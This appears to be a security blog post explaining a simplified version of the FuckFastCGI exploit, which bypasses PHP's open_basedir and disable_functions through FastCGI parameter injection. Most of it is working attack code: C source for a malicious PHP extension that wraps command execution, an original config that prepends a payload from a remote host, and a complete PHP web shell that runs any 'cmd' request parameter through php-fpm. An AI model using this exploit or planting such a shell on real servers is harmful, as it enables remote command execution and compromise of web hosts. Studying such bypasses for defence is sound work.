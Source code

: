 ```yaml
---
layout: posts
title:  FuckFastCGI made simpler
date:   2023-02-05
categories: stuff
---
```


Let's render unto Caesar the things that are Caesar's, the exploit [FuckFastCGI](https://github.com/w181496/FuckFastcgi) is not mine and is a brilliant one, bypassing `open_basedir` and `disable_functions` by the means of external malicious library loading.

While `open_basedir` can be modified at runtime and turned into `open_basedir = /`, it is not the same regarding `disable_functions`. The latter can only be set in the main `php.ini` and cannot be overriden by a local configuration or programmatically through `ini_set` or `ini_alter`.

To bypass this measure, the exploit sets two other configuration values: `extension` and `extension_dir`. By loading an external library which itself calls the C `system` function, disabled PHP functions are no more a protection.

The C code is as follows (the word `TSRMLS_CC` is commented to make it work with PHP >= 8.0. Uncomment if older):

```c
#include <php.h>
#include "hello.h"

zend_function_entry hello_functions[] = {
    PHP_FE(hello_world, NULL)
    PHP_FE_END
};

zend_module_entry hello_module_entry = {
    STANDARD_MODULE_HEADER,
    PHP_HELLO_EXTNAME,
    hello_functions,
    NULL,
    NULL,
    NULL,
    NULL,
    NULL,
    PHP_HELLO_VERSION,
    STANDARD_MODULE_PROPERTIES,
};

ZEND_GET_MODULE(hello);

PHP_FUNCTION(hello_world) {
    int ret, mode = 1;
    size_t s_len;
    char *s;
    zend_parse_parameters(ZEND_NUM_ARGS() /*TSRMLS_CC*/, "s", &s, &s_len);
    ret = php_exec(mode, s, NULL, return_value);
};

```

This program creates a routine named `hello_world` which is nothing more than a wrapper for `system`, and makes it available to PHP, as soon as the extension is loaded.

In the original exploit, the following values had to be set:

```php
// your extension directory path
$ext_dir_path = '/var/www/app/ext/';

// your extension name
$ext_name = 'hello.so';

// unix socket path or tcp host
$connect_path = 'unix:///var/run/php/php7.2-fpm.sock';

// tcp connection port (unix socket: -1)
$port = -1;

// Don't use this exploit file itself
$filepath = '/var/www/app/index.php';

// your php payload location
$prepend_file_path = 'http://kaibro.tw/gginin2';
```

The principle was to add a dummy `index.php` somewhere on the disk, and to use the directive `auto_prepend_file` to prepend the true payload, which was in turn calling `hello_world`. Problem: executing a different shell command requires a new payload file (in the example, it is a remote payload on a different host. It is made possible thanks to a modification of `allow_url_include`).

Actually, tweaking a little bit the exploit and adapting it based on the code from [here](https://balsn.tw/ctf_writeup/20190323-0ctf_tctf2019quals/#wallbreaker-easy), and we can reduce it to only one PHP and one SO file. Also, the socket path should be updated according to the type of listener:

```php
$client = new FCGIClient("127.0.0.1:9000", -1); // or custom ip:port
//or
$client = new FCGIClient("unix:///var/run/php/php-fpm.sock", -1); //should be a symlink to the real socket file
```

The last part of the script changes, to avoid the need to modify the payload and to repush a file on the disk:

```php
if (isset($_REQUEST['cmd'])) {
    // ---- BEGIN CONFIG
    $ext_dir_path = '/tmp';
    $ext_name = 'hello.so';
    // ---- END CONFIG

    $req = '/'.basename(__FILE__);
    $uri = $req .'?'.'command='.$_REQUEST['cmd'];
    $client = new FCGIClient("127.0.0.1:9000", -1);
    //$client = new FCGIClient("unix:///var/run/php/php-fpm.sock", -1);
    $code = "<?php echo '\$\$';hello_world(\$_REQUEST['command']);?>";
    $php_value = "open_basedir = /\nauto_prepend_file = php://input";
    $php_admin_value = "extension_dir=" . $ext_dir_path . "\nextension=" . $ext_name;
    $params = array(
        'GATEWAY_INTERFACE' => 'FastCGI/1.0',
        'REQUEST_METHOD'    => 'POST',
        'SCRIPT_FILENAME'   => __FILE__,
        'SCRIPT_NAME'       => $req,
        'QUERY_STRING'      => 'command='.$_REQUEST['cmd'],
        'REQUEST_URI'       => $uri,
        'DOCUMENT_URI'      => $req,
        'PHP_VALUE'         => $php_value,
        'PHP_ADMIN_VALUE'   => $php_admin_value,
        'SERVER_SOFTWARE'   => 'kaibro-fastcgi-rce',
        'REMOTE_ADDR'       => '127.0.0.1',
        'REMOTE_PORT'       => '9985',
        'SERVER_ADDR'       => '127.0.0.1',
        'SERVER_PORT'       => '80',
        'SERVER_NAME'       => 'localhost',
        'SERVER_PROTOCOL'   => 'HTTP/1.1',
        'CONTENT_LENGTH'    => strlen($code)
        );
    try{
        $resp = $client->request($params, $code);
        $idx = strpos($resp, '$$');
        if ($idx !== false){
            echo substr($resp, $idx+2);
        }
    }
    catch(Exception $e){
        echo "If you used the param cmd and it didn't print anything, please try to refresh";
    }
    if (function_exists("shell_exec")){
        echo shell_exec("date");
    }
    else{
        echo "Nope, shell_exec is disabled";
    }
    phpinfo();
}
```

Instead of loading an external payload, the latter is passed as a stream (`php://input`). The GET argument containing the command is forwarded, and passed to `hello_world`.

As shown below, the command `id` can be executed, although the routines are still marked as disabled.

![php_exec1.png](/assets/res/stuff/php_exec1.png)

![php_exec2.png](/assets/res/stuff/php_exec2.png)

Exploit code (original): [https://github.com/w181496/FuckFastcgi](https://github.com/w181496/FuckFastcgi)\
Exploit code (fork): [https://github.com/BorelEnzo/FuckFastcgi](https://github.com/BorelEnzo/FuckFastcgi)
